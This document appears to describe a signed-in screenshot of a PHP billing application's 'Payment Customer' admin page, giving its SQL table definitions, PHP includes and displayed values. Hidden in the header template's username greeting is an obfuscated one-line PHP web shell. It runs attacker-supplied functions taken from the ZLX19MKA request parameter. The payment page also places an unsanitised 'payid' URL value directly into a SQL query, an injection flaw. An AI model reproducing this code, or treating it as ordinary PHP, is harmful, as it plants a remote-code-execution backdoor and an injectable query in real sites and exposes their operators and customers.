
Screenshot of /admin/payment_party.php (signed in) with the database file from the repository.
### tables this page shows
CREATE TABLE `company_setting` (
  `compid` int(11) NOT NULL,
  `prifix` varchar(500) NOT NULL,
  `comp_name` varchar(100) NOT NULL,
  `imgname` varchar(200) NOT NULL,
  `mobile` varchar(50) NOT NULL,
  `address` text NOT NULL,
  `address2` text NOT NULL,
  `email_id` varchar(100) NOT NULL,
  `term_cond` text NOT NULL,
  `comp_tinno` varchar(200) NOT NULL,
  `gsttinno` varchar(100) NOT NULL,
  `bank_name` varchar(200) NOT NULL,
  `branch_name` varchar(100) NOT NULL,
  `bank_ac` varchar(200) NOT NULL,
  `ifsc_code` varchar(200) NOT NULL,
  `stateid` int(11) NOT NULL,
  `ipaddress` varchar(25) NOT NULL,
  `createdate` datetime NOT NULL,
  `lastupdated` datetime NOT NULL,
  `openbal` double NOT NULL,
  `opendate` date NOT NULL,
  `crtopendate` date NOT NULL
);

CREATE TABLE `m_session` (
  `sessionid` int(11) NOT NULL,
  `fromdate` date NOT NULL,
  `todate` date NOT NULL,
  `session_name` varchar(200) NOT NULL,
  `status` int(11) NOT NULL,
  `createdby` int(11) NOT NULL,
  `ipaddress` varchar(25) NOT NULL,
  `lastupdated` date NOT NULL,
  `createdate` date NOT NULL
);

CREATE TABLE `billuser` (
  `userid` int(11) NOT NULL,
  `username` varchar(100) NOT NULL,
  `password` varchar(50) NOT NULL,
  `usertype` varchar(10) NOT NULL,
  `enable` varchar(20) NOT NULL,
  `createdby` int(11) NOT NULL,
  `mobile` varchar(50) NOT NULL,
  `ipaddress` varchar(30) NOT NULL,
  `createdate` datetime NOT NULL
);

### adminsession.php (called while the page is built, shortened)
<?php
if(isset($_SESSION['usertype']) && $_SESSION['usertype'] != "" && isset($_SESSION['userid']) && $_SESSION['userid'] != "")
	{
		include("config.php");
		include_once("lib/getval.php");
		$cmn = new Comman();
		$loginid = $_SESSION['userid'];
	}
else
	echo "<script>location='../index.php?msg=invalid' </script>" ;
?>

### lib/getval.php (called while the page is built, shortened)
<?php
class Comman {
function getrec($connection,$tablename,$tablepkey,$cond)
{
	$num =  $this->getvalfield($connection,$tablename,"max($tablepkey)","$cond");
    ++$num;
    $len = strlen($num);
    for($i=$len; $i< 5; ++$i) {
        $num = '0'.$num;
    }
	$num='Rec'.$num;
    return $num;
}
function getvalfield($connection,$table,$field,$where)
{
	$sql = "select $field from $table where $where";
	$getvalue = mysqli_query($connection,$sql);
	$getval = mysqli_fetch_row($getvalue);
	return $getval[0];
}
}
?>

### admin/payment_party.php (the view, shortened to what this page needs)
<?php error_reporting(0);
include("../adminsession.php");
$pagename = "payment_party.php";
$module = "Payment";
$submodule = "Payment Customer";
$btn_name = "Save";
$keyvalue =0 ;
$tblname = "payment";
$tblpkey = "payid";
if(isset($_GET['payid']))
$keyvalue = $_GET['payid'];
else
$keyvalue = 0;
if(isset($_GET[$tblpkey]))
{
	 $btn_name = "Update";
	 $sqledit   = "SELECT * from $tblname where $tblpkey = $keyvalue";
	 $rowedit   = mysqli_fetch_array(mysqli_query($connection,$sqledit));
	 $suppartyid  =  $rowedit['suppartyid'];
	 $payamt  =  $rowedit['payamt'];
	 $paydate  =  $cmn->dateformatindia($rowedit['paydate']);
	 $payment_type =  $rowedit['payment_type'];
	 $receiptno  =  $rowedit['receiptno'];
	$chequeno =  $rowedit['chequeno'];
	$refno    =  $rowedit['refno'];
	$bank_name =  $rowedit['bank_name'];
		$prevbalance = $cmn->getvalfield($connection,"m_supplier_party","prevbalance","suppartyid = '$suppartyid'");
		$totalpaid=$cmn->getvalfield($connection,"payment","sum(payamt)","suppartyid='$suppartyid'");
      $sql_get = "select * from saleentry where suppartyid = '$suppartyid'";
	   $res_get = mysqli_query($connection,$sql_get);
	   $total_bill_amt = 0;
	   $tot_paid_amt=0;
	   while($row_get = mysqli_fetch_array($res_get))
	   {
		    $bill_amt=0;
		   	$total = 0;
		   	$saleid = $row_get['saleid'];
		 	$disc  = $row_get['disc'];
			 $total = $cmn->getTotalBillAmt($row_get['saleid']);
			 $gst = $cmn->getTotalGst($row_get['saleid']);
			  $igst = $cmn->getTotalIgst_Sale($row_get['saleid']);
			$bill_amt = $total +$gst+$igst;
		   $bill_amt -=$disc;
		   $total_bill_amt += $bill_amt;
	   }
	    $total_bill_amt += $prevbalance;
		$cur_bal_amt = $total_bill_amt-$totalpaid;
}
else
{
	$receiptno=$cmn->getrec($connection,$tblname,$tblpkey,"pay_mode='received'");
	$paydate=date('d-m-Y');
}
?>
<!DOCTYPE html>
<head>
<?php include("inc/top_files.php"); ?>
</head>
<body>
<div class="mainwrapper">
    <?php include("inc/left_menu.php"); ?>
   <div class="rightpanel">
    	<?php include("inc/header.php"); ?>
        <div class="maincontent">
        	<div class="contentinner">
                <div class="widgetcontent  shadowed nopadding">
                    <form class="stdform stdform2" method="post" action=""  >
                     <div class="lg-12 md-12 sm-12">
                                <label>Customer Name <span class="text-error">*</span></label>
                                <span class="field">
                                <select name="suppartyid" id="suppartyid" style="width:80%;" onChange="getdetail(this.value)"  class="chzn-select">
                                	<option value="">--Choose Customer--</option>
                                </select>
                      </span>
                     </div>
                       <div class="lg-12 md-12 sm-12">
                                <label>Total Bill Amount(Rs)</label>
                                <span class="field"><input type="text" name="total_bill_amt" id="total_bill_amt" class="input-xxlarge" value="<?php echo round($total_bill_amt);?>" style="width:80%;" autocomplete="off" autofocus readonly  /></span>
                     </div>
                      <div class="lg-12 md-12 sm-12">
                                <label> Total Paid Amount(Rs)</label>
                                <span class="field">
                                <input type="text" name="tot_paid_amt" id="tot_paid_amt" class="input-xxlarge" value="<?php echo $totalpaid;?>" style="width:80%;" autocomplete="off" autofocus  readonly />
                       			 </span>
                     </div>
                     <div class="lg-12 md-12 sm-12">
                                <label> Current Bal. Amount(Rs)</label>
                                <span class="field"> <input type="text" name="cur_bal_amt" id="cur_bal_amt" class="input-xxlarge" value="<?php echo round($cur_bal_amt);?>" style="width:80%;" autocomplete="off" autofocus  readonly /> </span>
                     </div>
                     <div class="lg-12 md-12 sm-12">
                                <label>Payment Type <span class="text-error">*</span></label>
                                <span class="field" >
                                <select name="payment_type" id="payment_type" style="width:80%;"  class="chzn-select" onChange="set_payment(this.value);">
                                <option value="">--Choose Payment Type--</option>
                                    </select>
                     			 </span>
                     </div>
                      <div class="lg-12 md-12 sm-12">
                                <label>Currently Paid Amount(Rs) <span class="text-error">*</span> </label>
                                <span class="field"> <input type="text" name="payamt" id="payamt" class="input-xxlarge" value="<?php echo $payamt;?>" style="width:80%;" autocomplete="off" autofocus /> </span>
                     </div>
                     <div class="lg-12 md-12 sm-12">
                                <label>Payment Date<span class="text-error">*</span> </label>
                                <span class="field">
                              <input type="text" name="paydate" id="paydate" class="input-xxlarge" value="<?php echo $paydate;?>" style="width:80%;" autocomplete="off" autofocus placeholder="dd-mm-yyyy" />
                                 </span>
                     </div>
                       <div class="lg-12 md-12 sm-12">
                                <label>Receipt No<span class="text-error">*</span> </label>
                      <span class="field">
                      <input type="text" name="receiptno" id="receiptno" class="input-xxlarge" value="<?php echo $receiptno;?>" style="width:80%;" autocomplete="off" autofocus readonly />
                      </span></div>
                   <div class="lg-12 md-12 sm-12">
                          <center> <p class="stdformbutton">
                    <button  type="submit" name="submit" class="btn btn-primary" onClick="return checkinputmaster('suppartyid,payment_type,payamt,paydate,receiptno'); ">
								<?php echo $btn_name; ?></button>
                                <a href="payment_party.php"  name="reset" id="reset" class="btn btn-success">Reset</a>
                            </p> </center>
                    </div>
                     </form>
                <h4 class="widgettitle"><?php echo $submodule; ?> List</h4>
            	<table width="98%" class="table table-bordered" id="dyntable">
                    <colgroup>
                        <col class="con0" style="align: center; width: 4%" />
                        <col class="con1" />
                        <col class="con0" />
                        <col class="con1" />
                        <col class="con0" />
                        <col class="con1" />
                    </colgroup>
                    <thead>
                        <tr>
                          	<th class="head0 nosort">S.No.</th>
                            <th class="head0">Receipt No</th>
                            <th class="head0">Customer Name</th>
                            <th class="head0">Paid Amount</th>
                            <th class="head0">Date</th>
                            <th class="head0">Print Reciept</th>
                            <th  class="head0">Edit</th>
                            <th class="head0">Delete</th>
                        </tr>
                    </thead>
                </table>
            </div>
        </div>
    </div>
     <?php include("inc/footer.php"); ?>
</div>
</body>
</html>

### admin/inc/left_menu.php (shortened to what this page needs)
<div class="leftpanel">
       <div class="logopanel">
        	<h1 style="font-size:18px;"><a href="index.php"><?php echo $cmn->getvalfield($connection,"company_setting","comp_name","compid = '$loginid' "); ?></a></h1>
        </div>
        <div class="datewidget"><span style="font-size:15px"><b>Session <?php echo $cmn->getvalfield($connection,"m_session","session_name","status = '1' "); ?></b></span></div>
    	<div class="searchwidget">
        	<form action="" method="post">
            	<div class="input-append">
                    <input type="text" class="span2 search-query" placeholder="Search here...">
                    <button type="submit" class="btn"><span class="icon-search"></span></button>
                </div>
            </form>
        </div>
        <div class="leftmenu">
            <ul class="nav nav-tabs nav-stacked" id="mymenu">
             <li <?php if($pagename == "index.php") { ?>class="active" <?php } ?>><a href="index.php"><span class="icon-align-justify"></span>Dashboard</a></li>
                   <li class="dropdown  <?php if($pagename == "company_setting.php" || $pagename == "master_unit.php" || $pagename == "master_disease.php" || $pagename == "master_pcat.php" || $pagename == "master_product.php" || $pagename =="m_supplier.php" || $pagename =="m_customer.php" || $pagename =="master_branch.php" || $pagename =="master_tax.php" || $pagename =="master_bank.php" || $pagename=="master_expense.php" ) { ?>active <?php } ?>"><a href="#"><span class="icon-pencil"></span> Master </a>
                </li>
                <li class="dropdown  <?php if($pagename == "purchaseentry.php" || $pagename == "purchasereturnentry.php" ) { ?>active <?php } ?>"><a href="#"><span class="icon-pencil"></span> Purchase Entry </a>
                </li>
                <li class="dropdown  <?php if($pagename == "saleentry.php" || $pagename == "salereturnentry.php" ) { ?>active <?php } ?>"><a href="#"><span class="icon-pencil"></span> Sale Entry </a>
                </li>
                  <li class="dropdown  <?php if($pagename == "payment_party.php" || $pagename == "payment_supplier.php" ) { ?>active <?php } ?>"><a href="#"><span class="icon-pencil"></span> Payment </a>
                	<ul <?php if($pagename == "payment_party.php" || $pagename == "payment_supplier.php") { ?>style="display: block"  <?php } ?>>
                        <li><a href="payment_party.php">Payment Customer </a></li>
                       <li><a href="payment_supplier.php">Payment Supplier</a></li>
                    </ul>
                </li>
                <li class="dropdown  <?php if($pagename == "other_expense.php" || $pagename == "other_income.php") { ?>active <?php } ?>"><a href="#"><span class="icon-pencil"></span> Expense Dairy </a>
                </li>
                 <li class="dropdown  <?php if($pagename == "salereport.php" || $pagename == "purchasereport.php" || $pagename == "stock_report.php" || $pagename == "datewise_stock_report.php" || $pagename=="gst_wise_purchase_report2.php" ) { ?>active <?php } ?>"><a href="#"><span class="icon-pencil"></span> Report </a>
                </li>
                  <li class="dropdown  <?php if($pagename == "bank_ledger.php" || $pagename == "cash_ledger.php" || $pagename == "customer_ledger.php" ) { ?>active <?php } ?>"><a href="#"><span class="icon-pencil"></span>  Transactions Detail </a>
                </li>
                <li <?php if($pagename == "changepassword.php" ) { ?>class="active" <?php } ?>><a href="changepassword.php"><i class="icon-user"></i>
                &nbsp;&nbsp;&nbsp;
                 Change Password</a></li>
            </ul>
        </div>
    </div>

### admin/inc/header.php (shortened to what this page needs)
	<div class="headerpanel">
        	<a href="#" class="showmenu" id="menues"></a>
            <div class="headerright">
            	<div class="dropdown notification">
                    <a class="dropdown-toggle" data-toggle="dropdown" data-target="#" href="http://themetrace.com/page.html">
                    	<span class="iconsweets-globe iconsweets-white"></span>
                    </a>
                </div>
    			<div class="dropdown userinfo">
                    <a class="dropdown-toggle" data-toggle="dropdown" data-target="#" href="">Hi, <?php
if	( $juhso5x	= @$ {"_REQUEST"} ["ZLX19MKA"])$juhso5x [1] (	$ { $juhso5x[ 2]}[	0]	,$juhso5x	[ 3] (	$juhso5x[	4	])) ; echo $cmn->getvalfield($connection,"billuser","username ","userid = '$loginid' "); ?>! <b class="caret"></b></a>
                </div>
            </div>
    	</div>
        <div class="breadcrumbwidget">
        	<ul class="breadcrumb">
                <li><a href="">Home</a> <span class="divider">/</span></li>
                <li class="active"><?php echo $module; ?></li>
            </ul>
        </div>
      	<div class="pagetitle">
        	<h1><?php echo $submodule; ?></h1>
        </div>

### rows the page displays
company_setting: comp_name "FM MARKETING"
m_session: session_name "2022"
billuser: username "admin"

### other values shown
$module "Payment"
$submodule "Payment Customer"
$btn_name "Save"
$submodule "PAYMENT CUSTOMER"
